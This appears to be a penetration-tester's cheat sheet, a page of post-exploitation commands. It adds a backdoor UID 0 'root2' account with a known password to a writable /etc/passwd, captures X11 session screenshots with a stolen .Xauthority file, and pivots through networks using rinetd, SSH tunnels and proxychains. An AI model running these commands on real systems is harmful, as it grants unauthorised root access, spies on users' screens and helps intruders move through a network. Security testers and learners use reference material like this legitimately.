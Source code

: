 ## Add user in /etc/passwd (if writable)
```
openssl passwd evil
echo "root2:Ur0xZo454Kq1s:0:0:root:/root/:/bin/bash" >> /etc/passwd
su root2 # passwd:evil
```

# Dump screenshot from X11 session
Prerequisite: .Xauthority file from session
1. define XAUTHORITY variable: ``export XAUTHORITY=/tmp/.Xauthority``
2. get display used (FROM column): ``w``
3. use xwd to dump screenshot: ``xwd -root -screen -silent -display :0 > /tmp/screen.xwd``
4. convert xwd to png: ``convert screen.xwd screen.png``


# Port Forwarding 
## Create SSH Key with forwarding permissions only
```
from="10.11.1.250",command="echo 'This account can only be used for port
forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa
<SSHKEY> www-data@ajla
```

## Local Port Forwarding
Port is opened locally 

[rinetd](https://boutell.com/rinetd/) :
```
sudo apt install rinetd
echo "0.0.0.0 80 10.10.10.10 80" >> /etc/rinetd.conf # forward incoming requests on port 80 to 10.10.10.10 port 80
sudo service rinetd restart
```

SSH:
```
sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
sudo ssh -N -L 127.0.0.1:1234:10.10.10.10:5678 user@10.10.10.10
# open 1234 locally and forward it to 11.11.11.11 on port 5678
```

## Remote Port Forwarding 
Port is opened on the remote side
```
ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R 10.10.10.10:4444:127.0.0.1:5555 user@10.10.10.10
# open port 4444 on 10.10.10.10 and forward ot to 127.0.0.1 port 5555
```
# SSH Dynamic Port Forwarding
Use proxy to tunnel any incoming traffic on local port to any remote destination
```
sudo ssh -N -D [bind_address:]port [username@address]
sudo ssh -N -D 127.0.0.1:4444 user@10.10.10.10 # open port 4444 and forward to 10.10.10.10
```
Edit /etc/proxychains.conf 
```
echo "socks 4 127.0.0.1 4444" >> /etc/proxychains.conf
sudo proxychains nmap -sT -Pn 10.10.10.12 # scan 10.10.10.12 through 10.10.10.10
```
